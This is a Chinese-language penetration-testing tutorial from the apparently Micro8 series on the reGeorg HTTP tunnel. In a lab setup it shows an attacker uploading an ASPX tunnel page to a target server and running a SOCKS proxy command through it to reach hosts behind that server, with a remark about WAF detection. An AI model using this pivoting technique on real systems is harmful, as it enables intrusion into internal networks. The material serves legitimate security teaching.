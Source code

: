 ```yaml
---
title: 98、HTTP隧道reGeorg第二季
date: 2019-09-21 19:07:12
comments: true
categories: 
 - Micro8系列
---
```





### reGeorg简介：

reGeorg 的前身是2008年 SensePost 在 BlackHat USA 2008 的 reDuh 延伸与扩展。也是目前安全从业人员使用最多，范围最广，支持多丰富的一款 http 隧道。从本质上讲，可以将 JSP/PHP/ASP/ASPX 等页面上传到目标服务器，便可以访问该服务器后面的主机。

2014年blackhat介绍  
https://www.blackhat.com/eu-14/arsenal.html#regeorg

Github：  
https://github.com/sensepost/reGeorg

**攻击机：**  
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

安装：
```code
root@John:~# git clone https://github.com/sensepost/reGeorg.git
Cloning into 'reGeorg'...
remote: Enumerating objects: 85, done.
remote: Total 85 (delta 0), reused 0 (delta 0), pack‐reused 85
Unpacking objects: 100% (85/85), done.
root@John:~# cd reGeorg/
root@John:~reGeorg# ls
LICENSE.html LICENSE.txt README.md reGeorgSocksProxy.py tunnel.ashx tu
nnel.aspx tunnel.js tunnel.jsp tunnel.nosocket.php tunnel.php tunnel.tomcat.5.jsp
root@John:~/reGeorg# python reGeorgSocksProxy.py ‐h


_____
_____ ______ __|___ |__ ______ _____ _____ ______
| | | ___|| ___| || ___|/ \| | | ___|
| \ | ___|| | | || ___|| || \ | | |
|__|\__\|______||______| __||______|\_____/|__|\__\|______|
|_____|
... every office needs a tool like Georg 

willem@sensepost.com / @_w_m__
sam@sensepost.com / @trowalts
etienne@sensepost.com / @kamp_staaldraad 

usage: reGeorgSocksProxy.py [‐h] [‐l] [‐p] [‐r] ‐u [‐v] 

Socks server for reGeorg HTTP(s) tunneller 

optional arguments:
‐h, ‐‐help show this help message and exit
‐l , ‐‐listen‐on The default listening address
‐p , ‐‐listen‐port The default listening port
‐r , ‐‐read‐buff Local read buffer, max data to be sent per POST
‐u , ‐‐url The url containing the tunnel script
‐v , ‐‐verbose Verbose output[INFO\|DEBUG]
```

```code
root@John:~/reGeorg# pip install urllib3
Requirement already satisfied: urllib3 in /usr/lib/python2.7/dist‐packages (1.24)
```
![](../do/media/c0a4051103d17e54b53982c1b6e8b631.jpg)



**靶机执行：**

以aspx为demo。  

![](../do/media/6f441fb77ba89a092b149fc8b4bc7eb9.jpg)

**攻击机执行：**
```python
python reGeorgSocksProxy.py ‐p 8080 ‐l 192.168.1.5 ‐u http://192.168.1.119/tunnel.aspx
```
![](../do/media/ecf64d63d586febad9c38bfa700ecd46.jpg)


Windows下配合Proxifier：  

![](../do/media/e0ed655e244f7a76f703bfa13ec6bb4d.jpg)

![](../do/media/48feea22eae0e72d9585eef488eb07f8.jpg)

非常遗憾的是，目前大部分waf都会针对默认原装版本的reGeorg。

>   Micropoor
